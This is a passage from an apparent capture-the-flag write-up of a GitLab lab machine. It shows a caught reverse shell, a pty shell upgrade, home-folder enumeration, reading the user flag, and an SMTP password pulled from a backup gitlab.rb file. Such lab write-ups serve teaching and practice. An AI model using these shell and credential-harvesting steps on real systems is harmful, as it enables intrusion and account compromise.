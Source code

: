 
```
sh4ck@kali:~/Desktop$ nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.220] 38902
id
uid=998(git) gid=998(git) groups=998(git)
```
I got shell with git user (and group). First of all i spawned shell:
```
which python
which python3
/opt/gitlab/embedded/bin/python3
/opt/gitlab/embedded/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
git@gitlab:~/gitlab-rails/working$
```
than i proceeded with some basic enumeration and found user dude inside home folder. I was able to read dude folder:
``` 
git@gitlab:~/gitlab-rails/working$ ls -l /home
ls -l /home
total 4
drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 dude
git@gitlab:~/gitlab-rails/working$ ls -la /home/dude
ls -la /home/dude
total 24
drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 .
drwxr-xr-x 1 root root 4096 Dec  2 10:45 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:58 .bash_history -> /dev/null
-rw-r--r-- 1 dude dude  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dude dude 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dude dude  655 May 16  2017 .profile
-r--r----- 1 dude git    33 Dec  2 10:46 user.txt
```
## User Flag

As showed above, git group had read permission to user.txt, so i was able to read fthe file: 

```
git@gitlab:~/gitlab-rails/working$ cat /home/dude/user.txt
```
and got user flag.

## Privilege Escalation

### Basic Enumeration

As usual, i did basic enumeration and found `gitlab.rb` file under `/opt/backup`. Inside file i spottet a smtp password:

```
git@gitlab:/opt/backup$ cat gitlab.rb
cat gitlab.rb

<redacted>

#### Email account password
# gitlab_rails['incoming_email_password'] = "[REDACTED]"
#     password: '_the_password_of_the_bind_user'
#     password: '_the_password_of_the_bind_user'
#   '/users/password',
#### Change the initial default admin password and shared runner registration tokens.
# gitlab_rails['initial_root_password'] = "password"
# gitlab_rails['db_password'] = nil
# gitlab_rails['redis_password'] = nil
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```